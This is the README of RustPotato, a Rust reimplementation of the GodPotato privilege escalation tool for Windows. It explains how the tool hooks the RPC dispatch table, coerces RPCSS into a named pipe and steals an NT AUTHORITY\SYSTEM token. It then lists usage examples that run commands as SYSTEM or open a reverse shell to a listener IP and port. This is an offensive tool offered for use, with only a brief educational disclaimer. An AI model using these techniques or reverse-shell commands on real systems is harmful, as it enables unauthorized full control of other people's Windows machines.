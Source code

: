 # RustPotato

**RustPotato** is a Rust-based implementation of [GodPotato](https://github.com/BeichenDream/GodPotato), a privilege escalation tool that abuses **DCOM** and **RPC** to leverage **SeImpersonatePrivilege** and gain `NT AUTHORITY\SYSTEM` privileges on Windows systems.

## Key Features

- **TCP-based Reverse Shell**:
  RustPotato features a TCP-based reverse shell based on [Rustic64Shell](https://github.com/safedv/Rustic64Shell). It leverages Winsock APIs for network communication and indirect NT APIs for pipe-based I/O redirection, enabling command execution through `cmd` or `powershell`.

- **Indirect NTAPI**:
  RustPotato leverages indirect NTAPI calls for various operations, including token handling and manipulation.

## Overview

Below is an overview of its execution flow, highlighting key operations at each step:

### 1. **Initialize and Hook RPC Context**

1. **Locate `RPC_SERVER_INTERFACE` Structure**:
   The tool scans the memory of `combase.dll` to find the `RPC_SERVER_INTERFACE` structure, a critical component for managing RPC communications through the OXID Resolver.

2. **Hook RPC Dispatch Table**:
   RustPotato replaces the first entry in the `RPC_DISPATCH_TABLE` with a custom function pointer, enabling interception and manipulation of specific RPC calls.

### 2. **Start Named Pipe Server and Trigger RPCSS**

The named pipe server plays a central role in impersonation and privilege escalation:

- **Create Named Pipe**:
  A named pipe (e.g., `\\.\pipe\RustPotato`) is created with unrestricted access, serving as the endpoint for client connections.

- **Unmarshal COM Object**:
  RustPotato crafts and unmarshals a COM object, compelling **RPCSS** to establish a connection with the named pipe.

- **Trigger RPCSS**:
  The unmarshalled object invokes RPC calls that traverse the hooked dispatch table, allowing RustPotato to intercept and manipulate the interactions.

- **Impersonate Client**:
  When **RPCSS** connects to the named pipe, RustPotato impersonates the client using `ImpersonateNamedPipeClient` to assume its security context.

- **Retrieve SYSTEM Token**:
  During impersonation, RustPotato locates and duplicates a token associated with the `NT AUTHORITY\SYSTEM` account.

### 3. **Execute Command or Establish Reverse Shell**

- **Execute a Command**:
  RustPotato uses the duplicated token to execute a specified command, leveraging `CreateProcessWithTokenW`.

- **Establish a Reverse Shell**:
  With reverse shell options (`-h` and `-p`), RustPotato connects to a listener and executes commands through `cmd` or `powershell`.

### 4. **Restore State and Cleanup**

- **Restore RPC Dispatch Table**:
  Removes the custom function pointer from the `RPC_DISPATCH_TABLE` and restores the original state in `combase.dll`.

- **Terminate Pipe Server**:
  Stops the named pipe server, releasing all associated resources and handles.

## Usage

RustPotato provides the following features:

- **`verbose`**: Enables detailed logging during execution.

### Build Options

- **Basic build** (only the process output is printed):

  ```bash
  cargo +nightly-2025-02-14 build --release
  ```

- **Build with verbose logging**:

  ```bash
  cargo +nightly-2025-02-14 build --release --features verbose
  ```

> [!NOTE]
> RustPotato requires Rust nightly 1.86 and supports only x86_64 targets (MSVC or GNU).

### Help

```text
Usage:
  RustPotato.exe [command line] | [options]

Description:
  Execute a command line or start a reverse shell.

Options:
  -h <LHOST>         Specify the IP address of the listener for the reverse shell.
  -p <LPORT>         Specify the port of the listener for the reverse shell.
  -c <cmd|powershell>
                     Specify the shell to be used in the reverse shell (optional, default is cmd).

Examples:
  Execute a command line:
    RustPotato.exe "cmd.exe /c whoami"

  Start a reverse shell with the default shell (cmd):
    RustPotato.exe -h 192.168.1.100 -p 4444

  Start a reverse shell with powershell:
    RustPotato.exe -h 192.168.1.100 -p 4444 -c powershell
```

## Disclaimer

This project is for **educational and research purposes only**. RustPotato is a personal learning project focused on exploring Rust and Windows internals. Use it responsibly—any misuse is entirely your responsibility.

Always respect ethical guidelines and adhere to legal frameworks while conducting security research (or, honestly, in everything you do).

## Credits

Special thanks to:

- [BeichenDream](https://github.com/BeichenDream) for his work on [GodPotato](https://github.com/BeichenDream/GodPotato), which made this port possible!
- [Resolving System Service Numbers Using The Exception Directory by MDsec](https://www.mdsec.co.uk/2022/04/resolving-system-service-numbers-using-the-exception-directory/) for their insights on resolving SSNs.

---
